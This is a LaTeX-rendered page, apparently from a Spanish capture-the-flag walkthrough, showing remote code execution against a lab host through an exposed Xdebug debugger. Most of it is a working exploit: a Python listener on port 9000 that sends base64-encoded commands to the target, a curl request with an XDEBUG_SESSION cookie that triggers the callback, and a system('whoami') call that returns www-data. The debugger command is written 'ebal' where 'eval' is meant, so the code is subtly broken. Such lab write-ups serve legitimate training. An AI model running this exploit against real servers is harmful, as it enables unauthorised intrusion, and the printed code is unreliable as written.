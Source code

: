 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\ImportTok}[1]{#1}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\OtherTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\VariableTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{import}\NormalTok{ socket}
\ImportTok{import}\NormalTok{ pdb}

\ImportTok{from}\NormalTok{ base64 }\ImportTok{import}\NormalTok{ b64encode}

\NormalTok{ip_port }\OperatorTok{=}\NormalTok{ (}\StringTok{'0.0.0.0'}\NormalTok{, }\DecValTok{9000}\NormalTok{)}
\NormalTok{sk }\OperatorTok{=}\NormalTok{ socket.socket()}
\NormalTok{sk.bind(ip_port)}
\NormalTok{sk.listen(}\DecValTok{10}\NormalTok{)}
\NormalTok{conn, addr }\OperatorTok{=}\NormalTok{ sk.accept()}

\ControlFlowTok{while} \VariableTok{True}\NormalTok{:}
\NormalTok{    client_data }\OperatorTok{=}\NormalTok{ conn.recv(}\DecValTok{1024}\NormalTok{)}
    \BuiltInTok{print}\NormalTok{(client_data)}

\NormalTok{    data }\OperatorTok{=} \BuiltInTok{input}\NormalTok{(}\StringTok{'>> '}\NormalTok{)}
\NormalTok{    data }\OperatorTok{=}\NormalTok{ data.encode(}\StringTok{'utf-8'}\NormalTok{)}
\NormalTok{    conn.sendall(b}\StringTok{'ebal -i -- '} \OperatorTok{+}\NormalTok{ b64encode(data) }\OperatorTok{+}\NormalTok{ b}\StringTok{'}\CharTok{\textbackslash{}x00}\StringTok{'}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Lanzamos el exploit

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ exploit_shell.py}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos una peticion GET

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.83/index.php"}\NormalTok{ -H }\StringTok{"Cookie: XDEBUG_SESSION=EEEEE"}
\end{Highlighting}
\end{Shaded}
\item
  En la mini shell abierta del exploit\_shell.py lanzamos un \textbf{whoami}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{system}\OtherTok{(}\StringTok{'whoami'}\OtherTok{)}    
\end{Highlighting}
\end{Shaded}
\item
  En la respuesta del \textbf{curl} se nos pone \emph{www-data}
\end{enumerate}
\end{document}
